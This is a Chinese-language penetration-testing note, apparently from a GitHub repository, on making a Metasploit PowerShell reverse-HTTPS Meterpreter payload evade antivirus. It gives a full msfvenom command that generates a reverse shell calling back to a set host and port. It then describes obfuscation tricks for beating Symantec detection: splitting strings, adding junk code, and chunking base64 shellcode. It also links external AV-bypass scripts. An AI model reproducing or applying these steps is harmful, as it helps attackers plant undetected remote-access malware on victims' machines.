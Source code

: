	生成
	msfvenom -p windows/x64/meterpreter_reverse_https LHOST=192.168.0.108 LPORT=443 -f psh-net -o shity_shellcode.ps1
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/700.png)

	先来测试一下，把ps1文件的shellcode换成一段无害的字符串
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/701.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/702.png)

	结果发现还是被查杀了
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/703.png)

	这表明大多数检测来自PowerShell模板，而不是Shellcode本身。
	下面几种bypass方法
	1.将字符串分成几部分并创建中间变量；
	2.添加大量垃圾备注；
	3.添加一些垃圾指令，例如循环或睡眠指令（对于沙盒有用）。
	[DllImport("kernel32.dll")]
	变为
	[DllImport("ke"+"rne"+"l32.dll")] #可绕过赛门铁克
	$przdE.ReferencedAssemblies.AddRange(@("System.dll",[PsObject].Assembly.Location))
	变为
	$magic="Syst"+"em"+".dll";
	$przdE.ReferencedAssemblies.AddRange(@($magic,[PsObject].Assembly.Location))
	分割shellcode
	$sc0=<shellcode的第1部分>; …$sc7=<shellcode的第8部分>; [Byte[]]$tcomplete_sc=[System.Convert]::FromBase64String($sc0+$sc1+…+$sc7)
	一些细节可参照
	https://raw.githubusercontent.com/kmkz/Pentesting/master/AV_Evasion/AV_Bypass.ps1
	我不太懂汇编语言，所以没有添加无害指令。
	这里直接使用一键生成的bash脚本，有时间的可以读读里面的命令
	https://github.com/darksh3llRU/tools/blob/master/psh-net_shellcode_fastchange.sh
	这个脚本是生成个hta的，脚本以1337个字符来分块
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/704.png)
	
	我测试的时候1337个字符会被赛门铁克查杀到，我这里修改成250个字符来分块
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/705.png)

	因为我没加汇编指令，中间这里直接按任意键跳过即可，懂的可以在开头添加一些指令，例如xor，inc，dec，add，sub，mov，nop等
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/706.png)

	执行完后会生成一些文件
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/707.png)

	我们只用final_pshnet_revhttps.ps1这个文件，打开修改一下
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/708.png)

	修改成
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/709.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/710.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/711.png)